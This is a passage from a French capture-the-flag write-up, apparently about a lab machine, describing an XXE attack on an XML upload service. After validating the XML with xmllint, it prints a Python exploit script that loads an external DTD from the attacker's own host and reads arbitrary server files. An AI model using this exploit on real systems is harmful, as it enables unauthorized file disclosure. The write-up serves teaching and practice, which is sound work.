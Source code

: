 Lint or die trying
------------------

La suite logique est de passer à un [payload XXE](https://gist.github.com/staaldraad/01415b990939494879b4) permettant l'exfiltration des fichiers. Seulement, si à chaque fois notre DTD est chargée, ça ne va pas plus loin.  

Il va donc falloir faire en sorte que le XML que l'on envoie soit accepté par le serveur et pour cela il faut vraisemblablement placer les entités mentionnées (*Author*, *Subject* et *Content*).  

On se rend assez vite compte que si on envoie du XML dégueulasse l'erreur 500 nous attend au tournant. Je n'entrerais pas dans les détails mais globalement je me suis servi de l’utilitaire [xmllint](http://xmlsoft.org/xmllint.html) avec son option *--valid*.  

Quand on parvient finalement à générer un XML valide on remarque qu'en plus du message de réussite de l'upload on a un nom d’utilisateur Unix mentionné :  

```plain
URL for later reference: /uploads/foo.xml
File path: /home/roosa/deploy/src
```

Au final j'ai écrit le code d'exploitation suivant permettant de récupérer le contenu d'un fichier :  

```python
import sys

import requests
from requests.exceptions import RequestException
from netifaces import ifaddresses

if len(sys.argv) < 2:
    print("Usage: python {} filename".format(sys.argv[0]))
    exit()

my_ip = ifaddresses("tun0")[2][0]["addr"]
filename = sys.argv[1]

xml = """<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root SYSTEM "http://{}/valid.dtd">
<root>
<Author>&xxe;</Author>
<Subject></Subject>
<Content></Content>
</root>""".format(my_ip)

dtd = """<?xml version="1.0" encoding="UTF-8" ?>
<!ELEMENT root (Author, Subject, Content)>
<!ENTITY xxe SYSTEM "file://{}" >
<!ELEMENT Author (#PCDATA)>
<!ELEMENT Subject (#PCDATA)>
<!ELEMENT Content (#PCDATA)>""".format(filename)

with open("valid.dtd", "w") as fd:
    fd.write(dtd)

try:
    response = requests.post(
        "http://10.10.10.91:5000/upload",
        files=[
            ("file", ("foo.xml", xml, "application/xml"))
        ]
    )
except RequestException as exception:
    print("Error occurred:", exception)
else:
```